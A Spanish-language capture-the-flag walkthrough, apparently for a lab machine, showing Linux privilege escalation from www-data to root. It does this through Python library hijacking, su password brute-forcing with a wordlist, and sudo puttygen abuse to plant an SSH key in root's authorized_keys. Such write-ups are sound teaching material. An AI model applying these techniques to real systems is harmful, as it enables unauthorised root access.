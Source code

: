 ### www-data

Al ejecutar sudo -l vemos que podemos ejecutar un script de python como el usuario "ministroariel". Si revisamos el codigo, importa la biblioteca random, por lo que podriamos crear en la misma carpeta un archivo llamado random.py con lo siguiente:

```python
import os
os.system("/bin/bash")
```

lo que hará que cuando el script intente usar la biblioteca, primero usará nuestro "random.py" permitiendo que nos de una shell como "ministroariel"

### ministroariel

Siendo este usuario podriamos intentar ejecutar nuevamente `sudo -l`, pero nos pide contraseña. Al hacer un `ls -la` vemos un archivo llamado ".secreto" el cual parece ser una wordlist. Ahora usaremos el script [Linux-Su-Force](https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh) con los usuarios "vicepresidente" y "presidente".

Luego de esperar un gran rato nos encuentra lo siguiente: ![pass1](./images/corruptress/imagenes/contra.png)

por lo que ponemos `su vicepresidente` y ponemos la contraseña.

### vicepresidente

Siendo el usuario "vicepresidente" ejecutamos `sudo -l` y vemos que podemos ejecutar con python3 un script en `/var/backups/script.py` , lo ejecutamos con `sudo -u presidente /usr/bin/python3 /var/backups/script.py` y logramos pasar al usuario presidente

### presidente

Siendo el usuario "presidente" vemos que podemos ejecutar el binario "puttygen" como root. Sabiendo esto haremos lo siguiente: Primero ejecutamos el siguiente comando

```css
puttygen -t rsa -o id_rsa -O private-openssh
```

esto nos generara una llave para el ssh la cual podremos usar.

La guardamos en `/root/.ssh/authorized_keys`

```css
sudo -u root /usr/bin/puttygen id_rsa -o /root/.ssh/authorized_keys -O public-openssh
```

Le damos permiso de ejecución con `chmod 600 id_rsa` y finalmente la usamos con `ssh -i id_rsa root@localhost` y listo, somos root

![root](./images/corruptress/imagenes/root.png)
